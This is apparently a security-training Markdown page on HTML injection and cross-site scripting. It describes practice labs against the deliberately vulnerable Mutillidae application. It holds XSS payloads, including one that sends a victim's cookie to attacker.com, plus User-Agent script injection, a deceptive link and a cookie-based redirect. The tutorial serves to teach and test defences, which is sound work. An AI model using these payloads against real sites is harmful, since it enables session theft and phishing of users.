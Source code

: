 # HTML Injections 
HTML Injection also known as Cross Site Scripting. It is a security vulnerability that allows an attacker to inject HTML code into web pages that are viewed by other users.

Attackers often inject malicious JavaScript, VBScript, ActiveX, and/or HTML into vulnerable applications to deceive the user in order to gather data from them.  Cross-site scripting (XSS) vulnerabilities can be used by attackers to bypass authentication controls there by gaining access to sensitive data on your system. Well crafted malicious code can even help the attacker gain access to the entire system.

### Example Of Html Injection
- First the attacker finds out a site which is vulnerable to HTML injection
- Then the attacker sends the URL with malicious code injected in the URL to the victim user either through email or some other mechanism.
- If the victim user click this malicious URL, it will run the JavaScript or VBScript code with the privileges of the victim user.
- Depending on the code being executed it can give out sensitive information of the user or even compromise the victim’s computer.

###### Example 
1. **Identify User Input Fields in the URL**:
   - Many web applications take parameters from the URL, such as search queries, user IDs, or other input. Look for URLs that contain query parameters like ?id=, ?search=, ?user=, etc.
   - Example: https://example.com/search?q=shoes

2. **Add payloads to the URL**
    - Ex: `https://example.com/search?q=<script>alert('XSS')</script>`
    - Ex: `https://example.com/search?q=<script>document.location='http://attacker.com/steal?cookie='+document.cookie</script>`

> Try to send any HTML code snippet through the params, if the code is executed, the website have the particular vulnerability.

###### Common Issues
1. Lack of Input Validation
2. Improper Sanitization
3. Dynamic Content Generation
4. Lack of Proper Encoding

###### Redemption
1. Proper Validation
2. CSP - Content Security Policy


### Hands-On - 1
Let's practice with **Mutillidae** (OWASP-BWA) - http://192.168.42.131/mutillidae/  
Go to `OWASP 2013 > A1 Injection (Other) > HTML Injection` there are multiple labs.  
- http://192.168.42.131/mutillidae/index.php?page=browser-info.php

1. Let's work on the Browser Info Lab - Let's test for HTMLi 
![alt text](assets/htmlibrowser1.png)
2. Setup Burpsuite to intercept the parameters
![alt text](assets/htmlibrowser2.png)
- Tested changing the `page` parameter with `<script>alert('XSS')</script>` but it was not successful.
- After careful inspection, `User Agent` value seems to be a param, let's try it out.
![alt text](assets/htmlibrowser3.png)
We have updated the `User Agent` value to `<script>alert('HTMLi - Changing User-agent')</script>`
![alt text](assets/htmlibrowser4.png)
We can see that the code that is sent through `User Agent` is executing successfully.
![alt text](assets/htmlibrowser5.png)
We can even update it with malicous links like `<a href="https://www.malicious.com">Visit Trusted page!</a>`

### Success!!!

### Hands-On - 2
Go to `OWASP 2013 > A1 Injection (Other) > HTML Via Cookie Injection > Capture Data Page` 
![alt text](assets/htmlicookie1.png)
- Here we can clearly see the `PHPSESSIONID`
- Let's intercept and use it, but this time let's try to redirect it to another page.
- PHPSESSID=`<meta http-equiv="refresh" content="5; URL=https://www.facebook.com"/>COOKIE_VALUE`
- Redirected to `Facebook` after 5 Seconds
![alt text](assets/htmlicookie2.png)

### Success

### Hands-On - 3
![alt text](assets/htmlistorage1.png)
- Play with the input values.
![alt text](assets/htmlstorage2.png)
- We are able to add code snippets which are being executed and stored, when user visits - they will see it.

### Success